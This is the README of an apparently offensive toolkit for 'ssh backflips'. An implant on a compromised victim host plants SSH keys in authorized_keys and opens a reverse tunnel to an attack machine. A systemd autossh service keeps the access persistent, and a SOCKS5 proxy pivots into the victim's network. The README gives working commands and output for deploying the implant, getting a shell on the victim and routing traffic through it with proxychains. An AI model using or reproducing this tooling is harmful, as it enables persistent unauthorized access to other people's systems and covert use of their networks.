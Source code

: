 # WTF

These are backflip scripts used to create ssh backflips. This allows
for a connection outbound from a unix system to an attack machine that
provides a reverse tunnel back into that machine's ssh server. It
deploys keys to make this all possible.

# Things to Take Note of
* Port numbers for both reverse port forwards and socks proxies will
  need to be managed out of band. Implement a process and use it.
* You are running an additional ssh server that your victims ssh
  to. This can be abused by somebody who has control of the victim
  machine. While shell access is disabled, only reverse forwarding
  will work.


# Moving Parts
* implant.py

A script embedded in install_implant.py that daemonizes and makes ssh
connections

* install_implant.py

A script that runs on client that provisions the keys and runs evil.py

* make_backflip.py

A script that runs on the attack machine that gives the cut-n-paste
command to run on victim

* install_proxy.py

A script to install and start a socks proxy back to victim

# How to Setup a Backflip

In our examples, our victim is 10.0.0.1 and our proxy01 external IP is
at 10.50.0.1. We our reverse port-forwards are on ports 4000 onwards
and our socks proxies are on ports 5000 onwards

1. Get a shell on victim host
1. run `install_implant.py`

Assuming you are doing this on proxy01 and victim username is ubuntu: 
```
  sudo ./make_backflip.py ubuntu 10.0.0.1 10.50.0.1 4000
```

This will leave port 4000 on proxy01 with a remote connection to
10.0.0.1 on 22 when the command that is outputed is run on the
victim. Note that you will need to allocate a new port with each
blackflip created.
  
1. run the command spit out on the victim
  You should see output like:
  ```
  [+] keypath: /home/ubuntu/.ssh/id_rsab
  [+] wrote private key: /home/ubuntu/.ssh/id_rsab
  [+] wrote public key: /home/ubuntu/.ssh/id_rsab.pub
  [+] wrote to ~/.ssh/authorized_keys
  [+] started daemonized tunnel
  [*] waiting one minute for tunnel to come up...
  [+] tunnel running
  ```
  
1. run `install_proxy.py`

`install_proxy` will create a systemd service to initiate the ssh
connection to the victim and reverse port-forward a connection to
their ssh daemon on the attack system. Additionally, it will setup a
SOCKS5 proxy listening on a port you specify. As above, it is
important to note which SOCKS port you are using and each backflip
will require a unique one.

In this example, we setup a persistant ssh connection with reverse
forward as well as a socks proxy on port 5000:
```
sudo ./install_proxy.py 4000 5000 /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1
contents:
[Unit]
Description=ssh backflip to 4000
After=network.target auditd.service

[Service]
ExecStart=/usr/bin/autossh -oServerAliveInterval=30 -oServerAliveCountMax=5 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no -oBatchMode=yes -n -N -D :5000 -i /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 -p4000 ubuntu@localhost

[Install]
WantedBy=multi-user.target

Created symlink /etc/systemd/system/multi-user.target.wants/backflip-4000-5000.service → /etc/systemd/system/backflip-4000-5000.service.
```

You can see that the proxy and ssh backflip are up:
```
$ sudo netstat -lntp | grep -E "4000|5000"
tcp        0      0 0.0.0.0:4000            0.0.0.0:*               LISTEN      20612/sshd: flip
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      20693/ssh
tcp6       0      0 :::4000                 :::*                    LISTEN      20612/sshd: flip
tcp6       0      0 :::5000                 :::*                    LISTEN      20693/ssh
```

Notice that ssh is listening on 0.0.0.0, meaning that these services
are available throughout the subnet.

# How to Use a Backflip

There are two primary ways to use a backflip, shell access and proxy access.

## Get a Shell

In `/opt/backflips/keys` are the ssh keypairs necessary to ssh into
the victim machine. However, the permissions on the directory are such
that a normal user cannot use them. Each key to be used must be copied
to your home directory with permissions and ownership as SSH
expects. In our example:
```
sudo cp /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 ~/.ssh/
sudo chown $UID:$(id -g) ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
chmod 600 ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
```

Note, the user will be the same user as used above
to setup the backflip.

The following will reward you with a shell on the victim:
```
ssh -i ~/.ssh/ubuntu-10.0.0.1-10.50.0.1 -p 4000 ubuntu@127.0.0.1
```


## Use a SOCKS5 Proxy

In our example above, there is a SOCKS5 proxy running on
port 5000. The most practical way to use it is with a browser plugin
such as foxyproxy or switchyomega. However, it is also available for
command line tools with the help of a proxy LD_PRELOAD library.

For example, a `proxychains.conf` in the current working directory
with contents as such:
```
strict_chain
# Quiet mode (no output from library)
#quiet_mode
proxy_dns 

# Some timeouts in milliseconds
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5  127.0.0.1 5000
```

We can verify that our SOCKS proxy works with curl as we see our
victim IP instead of our attack IP:
```
$ proxychains curl ifconfig.me; echo
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-request| ifconfig.me 
|S-chain|-<>-127.0.0.1:5000-<><>-4.2.2.2:53-<><>-OK
|DNS-response| ifconfig.me is 216.239.32.21
|S-chain|-<>-127.0.0.1:5000-<><>-216.239.32.21:80-<><>-OK
10.0.0.1
```
